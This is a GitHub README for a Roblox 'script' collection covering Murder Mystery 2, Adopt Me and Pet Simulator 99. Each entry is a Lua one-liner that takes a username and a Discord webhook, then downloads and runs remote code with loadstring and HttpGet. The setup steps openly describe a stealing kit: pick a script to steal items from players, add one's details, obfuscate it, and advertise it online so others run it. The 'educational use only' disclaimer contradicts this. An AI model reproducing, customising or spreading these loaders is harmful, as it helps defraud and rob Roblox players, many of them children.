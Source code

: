 # Star Script's 💫

Welcome to the Official Star Scripts Repository on GitHub. This collection features scripts for popular Roblox games such as Murder Mystery 2, Adopt Me, and Pet Simulator 99.

## Disclaimer ✅
Please use these scripts responsibly and in accordance with Roblox's terms of service. Unauthorized use of scripts may result in account suspension or banning. Note that I am not responsible for any use with these scripts as these are educational use only. Thanks!

## Features 🌠
- **Game Compatibility**: Scripts available for various popular Roblox games.
- **User-Friendly**: Easy to integrate and use within your Roblox experience.
- **Regular Updates**: Scripts are maintained and updated to ensure compatibility with game changes.

## Available Scripts ☄️
- **Murder Mystery 2** 🔪
- **Adopt Me** 🐕
- **Pet Simulator 99** 🐈

## Scripts 📚
**Adopt Me** 😺
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Star-Scripts-Official/Star-Scripts/refs/heads/main/adopt-me.lua",true))()
```
**Murder Mystery 2** 🔫
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Star-Scripts-Official/Star-Scripts/refs/heads/main/murder-mystery-2.lua",true))()
```
**Pet Simulator 99** 🐶
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Star-Scripts-Official/Star-Scripts/refs/heads/main/pet-simulator-99.lua",true))()
```

## Installation Instructions 📩
1. Find the script you want to steal items from players on.
2. Fill out necessary imformation.
3. Obfuscate the full script with the information.
4. Copy the obfuscated script and advertise it online.

## Contribution 💁
Contributions are welcome! If you have scripts to add or improvements to suggest, please submit a pull request.

## Support 🙌
For any questions or issues, please open an issue in the repository or refer to the documentation provided with each script.

